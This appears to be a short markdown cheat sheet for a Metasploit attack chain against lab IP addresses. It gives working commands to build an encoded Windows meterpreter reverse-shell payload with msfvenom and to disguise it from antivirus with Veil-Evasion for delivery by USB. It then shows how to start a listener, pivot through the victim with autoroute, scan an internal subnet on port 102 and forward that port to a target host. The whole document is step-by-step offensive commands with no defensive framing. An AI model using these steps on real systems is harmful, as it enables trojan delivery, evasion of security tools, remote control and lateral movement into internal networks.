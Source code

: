 # Metasploit
```
Attacker 192.168.0.99
Victim   192.168.0.5
         192.168.1.5
Target   192.168.1.63
```

## Step 1: Create Windows Payload
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e cmd/powershell_base64 -i 10 LHOST=192.168.0.99 > blabla.exe
```

## Step 2: veil-evasion
```
veil> use python/meterpreter/reverse_tcp
veil> set use_pyherion Y
veil> set LHOST 192.168.0.99
veil> generate

set filename (eg. gugus)
choose Pyinstaller (default)
cp ~/veil-output/compiled/xy.exe /media/USB
```


## Step 3: Listener 
```
msfconsole
msf> use exploit/multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST 192.168.0.99
msf> run
```

## Step 4: Run Trojan & Check meterpreter session
```
/* pivot, create autoroute
 *
 * - run payload on victim
 * - check msf for new meterpreter session
 */
meterpreter> run autoroute -s 192.168.1.0/24
meterpreter> run autoroute -p
```

```
/* scan session
 *
 * - leave current session
 * - run module
 */
meterpreter> background
msf> use auxiliary/scanner/portscan/tcp
msf> set PORTS 102
msf> set RHOSTS 192.168.1.0/24
msf> set THREADS 50
msf> run
```

```
/* port forward to target 
 * 
 * - go to current session CHECK ID
 * - create port forwarder localhost:102 => 192.168.1.63:102
 */
msf> sessions -l
msf> sessions -i 1
meterpreter> portfwd add -l 102 -r 192.168.1.63 -p 102
```


